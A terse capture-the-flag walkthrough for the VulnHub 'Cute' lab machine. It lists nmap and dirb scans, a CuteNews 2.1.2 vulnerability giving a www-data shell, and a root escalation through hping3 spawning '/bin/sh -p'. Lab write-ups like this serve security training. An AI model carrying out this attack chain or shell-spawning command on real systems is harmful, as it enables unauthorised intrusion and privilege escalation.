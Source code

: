 

# Cute Walkthrough 

**VulnHub Link:** [Cute](https://www.vulnhub.com/entry/bbs-cute-102,567/)
**Difficulty:** Easy
**Release Date:** 24 Sep 2020

## 1.Reconnaissance
```bash
nmap -A -O -T4 -P -sV 192.168.100.131
```


## 2.Web Enumeration

```bash
dirb http://ip
```

in <ip>/index.php , CuteNews 2.1.2 vulnerability found 

wget 

www-data shell opened and user flag captured 


fox user found


linpeas.sh executing ---> ./usr/sbin/hping3;/bin/sh -p


escalating root and root flag captured
